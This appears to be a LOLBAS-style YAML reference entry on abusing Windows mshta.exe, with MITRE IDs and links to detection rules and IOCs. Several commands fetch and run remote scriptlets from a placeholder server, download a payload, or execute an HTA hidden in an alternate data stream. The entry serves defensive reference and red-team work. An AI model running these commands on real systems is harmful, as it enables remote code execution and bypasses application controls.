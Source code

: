 ```yaml
---
Name: Mshta.exe
Description: Used by Windows to execute html applications. (.hta)
Author: Oddvar Moe
Created: 2018-05-25
Commands:
  - Command: mshta.exe evilfile.hta
    Description: Opens the target .HTA and executes embedded JavaScript, JScript, or VBScript.
    Usecase: Execute code
    Category: Execute
    Privileges: User
    MitreID: T1218.005
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: WSH
      - Execute: Remote
  - Command: mshta.exe vbscript:Close(Execute("GetObject(""script:https://webserver/payload.sct"")"))
    Description: Executes VBScript supplied as a command line argument.
    Usecase: Execute code
    Category: Execute
    Privileges: User
    MitreID: T1218.005
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: VBScript
  - Command: mshta.exe javascript:a=GetObject("script:https://webserver/payload.sct").Exec();close();
    Description: Executes JavaScript supplied as a command line argument.
    Usecase: Execute code
    Category: Execute
    Privileges: User
    MitreID: T1218.005
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: JScript
  - Command: mshta.exe "C:\ads\file.txt:file.hta"
    Description: Opens the target .HTA and executes embedded JavaScript, JScript, or VBScript.
    Usecase: Execute code hidden in alternate data stream
    Category: ADS
    Privileges: User
    MitreID: T1218.005
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10 (Does not work on 1903 and newer)
    Tags:
      - Execute: WSH
  - Command: mshta.exe https://example.com/payload
    Description: It will download a remote payload and place it in INetCache.
    Usecase: Downloads payload from remote server
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Download: INetCache
Full_Path:
  - Path: C:\Windows\System32\mshta.exe
  - Path: C:\Windows\SysWOW64\mshta.exe
Code_Sample:
  - Code: https://gist.github.com/bohops/6ded40c4989c673f2e30b9a6c1985019
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_mshta_susp_pattern.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_hktl_invoke_obfuscation_via_use_mhsta.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_mshta_lethalhta_technique.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_mshta_javascript.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/file/file_event/file_event_win_net_cli_artefact.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/image_load/image_load_susp_script_dotnet_clr_dll_load.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/f8f643041a584621e66cf8e6d534ad3db92edc29/rules/windows/defense_evasion_mshta_beacon.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/cc241c0b5ec590d76cb88ec638d3cc37f68b5d50/rules/windows/lateral_movement_dcom_hta.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/82ec6ac1eeb62a1383792719a1943b551264ed16/rules/windows/defense_evasion_suspicious_managedcode_host_process.toml
  - Splunk: https://github.com/splunk/security_content/blob/08ed88bd88259c03c771c30170d2934ed0a8f878/stories/suspicious_mshta_activity.yml
  - Splunk: https://github.com/splunk/security_content/blob/bee2a4cefa533f286c546cbe6798a0b5dec3e5ef/detections/endpoint/detect_mshta_renamed.yml
  - Splunk: https://github.com/splunk/security_content/blob/18f63553a9dc1a34122fa123deae2b2f9b9ea391/detections/endpoint/suspicious_mshta_spawn.yml
  - Splunk: https://github.com/splunk/security_content/blob/18f63553a9dc1a34122fa123deae2b2f9b9ea391/detections/endpoint/suspicious_mshta_child_process.yml
  - Splunk: https://github.com/splunk/security_content/blob/bee2a4cefa533f286c546cbe6798a0b5dec3e5ef/detections/endpoint/detect_mshta_url_in_command_line.yml
  - BlockRule: https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules
  - IOC: mshta.exe executing raw or obfuscated script within the command-line
  - IOC: General usage of HTA file
  - IOC: msthta.exe network connection to Internet/WWW resource
  - IOC: DotNet CLR libraries loaded into mshta.exe
  - IOC: DotNet CLR Usage Log - mshta.exe.log
Resources:
  - Link: https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_4
  - Link: https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/mshta.sct
  - Link: https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/
  - Link: https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
  - Person: Nir Chako (Pentera)
    Handle: '@C_h4ck_0'
---
```

